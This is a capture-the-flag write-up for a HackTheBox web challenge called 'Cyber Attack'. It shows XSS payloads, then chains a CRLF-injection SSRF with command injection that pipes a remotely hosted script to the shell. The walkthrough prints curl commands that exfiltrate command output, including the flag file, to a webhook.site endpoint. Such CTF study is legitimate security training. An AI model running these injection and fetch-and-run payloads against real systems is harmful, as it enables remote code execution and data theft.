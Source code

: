 ```yaml
---
title: Cyber Attack
tags:
  - CTF
  - HackTheBox
  - CyberApocalypse
  - Web
  - SSRF
date: 2025-03-22T00:00:00Z
---
```

![](Pasted%20image%2020250321233331.png)

XSS found:

```js
perico';</script><script>alert('xss');</script><script>
perico';</script><script>document.write('<form action="/upload.php" method="POST" enctype="multipart/form-data"><input type="file" name="file"><input type="submit" value="Subir"></form>');</script><script>
```

![](Pasted%20image%2020250322192534.png)

This is not the objective of the challenge.

I've been able to perform a SSRF attack by provoking an error in the `attack_domain` to call the `attack_ip` function:

```shell
http://94.237.51.163:45863/cgi-bin/attack-domain?target=-&name=a%0d%0aLocation:+/a%0d%0aContent-Type:+proxy:http://127.0.0.1/cgi-bin/attack-ip%3ftarget=::1%26name=%0d%0a%0d%0a
```

![](Pasted%20image%2020250323194057.png)

So now I'll try to load the content of a remote file in a webhook and pipe it to bash to send me the result of a command.

The content of the webhook:

```shell
#!/bin/bash 
curl -X POST 'https://webhook.site/<WEBHOOK_ID>' --data "cmd=$(pwd)"
```

Then what I'll append to the request to execute a curl request and get rce:

```shell
curl 'http://94.237.51.163:45863/cgi-bin/attack-domain?target=-&name=a%0d%0aLocation:+/a%0d%0aContent-Type:+proxy:http://127.0.0.1/cgi-bin/attack-ip%3ftarget=::1%$(curl%2bhttps://webhook.site/<WEBHOOK_ID>|sh)%26name=%0d%0a%0d%0a'
```

This didn't work because the ip_attack function only accepts ips:

![](Pasted%20image%2020250323210012.png)

So I'll need to set up my own server where I'll put an `index.html` containing a malicious script to send commands outputs to the webhook:.

The content of the `index.html`:

```html
#!/bin/bash 
curl -X POST 'https://webhook.site/4c227219-d9b7-4b35-8eac-cd20ceb4847a' --data "cmd=$(id)"
```

Then I opened a port in my router:

![](Pasted%20image%2020250323210158.png)

Once opened, I find out my public ip:

```shell
curl ifconfig.me 

YOUR_IP
```

Then I set up a local python server:

```shell
python3 -m http.server YOUR_ROUTER_OPENED_PORT
```

Then test the connection:

```shell
curl YOUR_IP:YOUR_ROUTER_OPENED_PORT
# Here you should see a petition in te terminal of the python server
```

Now you can modify the script to make a petition to your own server:

```shell
curl 'http://94.237.51.163:45863/cgi-bin/attack-domain?target=-&name=a%0d%0aLocation:+/a%0d%0aContent-Type:+proxy:http://127.0.0.1/cgi-bin/attack-ip%3ftarget=::1%$(curl%2bYOUR_IP:YOUR_ROUTER_OPENED_PORT|sh)%26name=%0d%0a%0d%0a'
```

![](Pasted%20image%2020250323210507.png)

Got RCE!

So now we'll enumerate the machine by changing the command inside the index.html until we get the flag:

```html
#!/bin/bash 
curl -X POST 'https://webhook.site/4c227219-d9b7-4b35-8eac-cd20ceb4847a' --data "cmd=$(ls /)"
```

![](Pasted%20image%2020250323210557.png)

```html
#!/bin/bash 
curl -X POST 'https://webhook.site/4c227219-d9b7-4b35-8eac-cd20ceb4847a' --data "cmd=$(cat /flag-g59hKWrD613Pi5T.txt)"
```

![](Pasted%20image%2020250323210630.png)

